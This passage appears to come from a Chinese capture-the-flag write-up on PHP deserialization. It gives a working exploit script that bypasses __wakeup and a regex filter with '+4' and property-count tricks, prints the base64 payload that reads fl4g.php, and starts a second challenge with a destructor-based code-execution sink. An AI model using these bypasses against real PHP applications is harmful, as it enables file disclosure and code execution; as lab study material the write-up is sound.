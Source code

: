 ```php
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```

解题条件：

> 1 .要绕过wake up 
>
> 2 .要绕过正则表达式
>
> 3 .必须是base64加密
>

exp

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
$A = new Demo ('fl4g.php');					//创建对象
$C = serialize($A);                     //对对象A进行序列化
$C = str_replace('O:4','O:+4',$C);      //绕过正则表达式过滤
$C = str_replace(':1:',':2:',$C); 		//wakeup绕过
var_dump($C);
var_dump(base64_encode($C));            //base64加密

?>
```

```php
TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732844439504-06ef612c-88df-4bd3-a46a-d70cc3d00c02.png)

## pop base mini moe
```php
<?php

class A {
    // 注意 private 属性的序列化哦
    private $evil;

    // 如何赋值呢
    private $a;

    function __destruct() {
        $s = $this->a;
        $s($this->evil);
```